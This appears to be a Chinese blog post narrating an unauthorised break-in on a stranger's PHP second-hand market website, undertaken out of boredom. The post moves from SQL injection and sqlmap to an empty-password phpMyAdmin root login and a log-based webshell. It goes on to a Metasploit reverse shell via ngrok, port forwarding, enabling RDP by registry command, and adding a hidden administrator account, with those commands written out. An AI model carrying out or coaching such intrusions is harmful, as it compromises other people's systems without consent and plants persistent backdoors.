我谁都不怕，就怕自己不够强大
QQ空间发现别人用PHP自己写了一个二手市场的网站
然后我闲的无聊，就有了本次渗透
测了一下，输入单引号
MySQL数据库直接报错

给师傅看了一下，确实是存在注入的

然后师傅干活去了，叫我自己整
但是我拉网线，也没有时间，就只能下班回去看吧
下班回去之后发现网站打不开了

然后..
继续。
抓个POST包，然后丢sqlmap里面跑

sql报错看到网站路径是在wamp文件夹下面的，网站应该存在phpmyadmin
然后sqlmap跑mysql表下面的user列，但是在user列里面没有找到password字段
完了我就把user列里面的数据全部dump

发现NULL
然后就直接用户名：root 密码空 登陆phpmyadmin

然后利用日志拿到shell –> https://www.cnblogs.com/xishaonian/p/6622818.html

虚拟终端执行whoami，直接是system权限 （一般用集成环境软件搭建的权限都比较大）

看一下ipconfig，是内网

然后本来想用Proxifier+reGeorg内网穿透搞这个内网的，但是我电脑没有环境
然后久哥哥教我用kali里面内嵌的portfwd工具进行端口转发
现在kali里面配置好ngrok，反弹shell过来


然后msf上面配置


然后反弹过来，msf上线

再使用portfwd端口转发 –> https://blog.csdn.net/ws13129/article/details/94395905?utm_source=app
-r 填目标内网IP

然后我们连接kali的33333端口就是连接的目标站的3389端口
连接试试

提示内部错误。。
久哥说是不是没开3389啊，然后我看了一下，，好像确实没开
使用cmd开启3389 –> https://www.cnblogs.com/dsli/p/7452535.html
开启：REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal” “Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
然后我们再连接

OK，成功
然后我们再添加一个账号进去
net user xb xb123.a /add 添加一个用户为xb，密码为xb123.a
net localgroup administrators xb /add 把用户xb提升到administrators管理员组
登陆服务器

感谢久哥，感谢师傅，感谢NU1l